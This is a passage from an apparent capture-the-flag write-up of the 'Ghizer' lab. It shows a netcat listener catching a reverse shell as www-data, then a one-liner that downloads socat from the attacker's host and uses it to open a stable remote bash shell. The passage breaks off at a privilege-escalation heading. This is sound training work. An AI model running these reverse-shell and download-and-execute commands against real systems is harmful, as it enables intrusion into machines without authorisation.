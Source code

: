 ```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Ghizer]
└─# nc -lnvp 443
listening on [any] 443 ...
connect to [10.8.27.249] from (UNKNOWN) [10.10.160.234] 37300
bash: cannot set terminal process group (1003): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/var/www/html/wordpress/wp-admin$ whoami;hostname;id;ip a
whoami;hostname;id;ip a
www-data
ubuntu
uid=33(www-data) gid=33(www-data) groups=33(www-data)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:56:23:b0:c1:77 brd ff:ff:ff:ff:ff:ff
    inet 10.10.160.234/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::56:23ff:feb0:c177/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm `www-data`!

**Stable shell via `socat`:**
```
┌──(root🌸siunam)-[/opt/static-binaries/binaries/linux/x86_64]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

www-data@ubuntu:/var/www/html/wordpress/wp-admin$ wget http://10.8.27.249/socat -O /dev/shm/socat;chmod +x /dev/shm/socat;/dev/shm/socat TCP:10.8.27.249:4445 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane

┌──(root🌸siunam)-[~/ctf/thm/ctf/Ghizer]
└─# socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4445
2022/10/10 05:15:09 socat[36238] N opening character device "/dev/pts/3" for reading and writing
2022/10/10 05:15:09 socat[36238] N listening on AF=2 0.0.0.0:4445
                                                                 2022/10/10 05:15:48 socat[36238] N accepting connection from AF=2 10.10.160.234:38098 on AF=2 10.8.27.249:4445
                                                                        2022/10/10 05:15:48 socat[36238] N starting data transfer loop with FDs [5,5] and [7,7]
                                                        www-data@ubuntu:/var/www/html/wordpress/wp-admin$ 
www-data@ubuntu:/var/www/html/wordpress/wp-admin$ stty rows 22 columns 107
www-data@ubuntu:/var/www/html/wordpress/wp-admin$ export TERM=xterm-256color
www-data@ubuntu:/var/www/html/wordpress/wp-admin$ ^C     
www-data@ubuntu:/var/www/html/wordpress/wp-admin$ 
```

## Privilege Escalation

### www-data to veronica
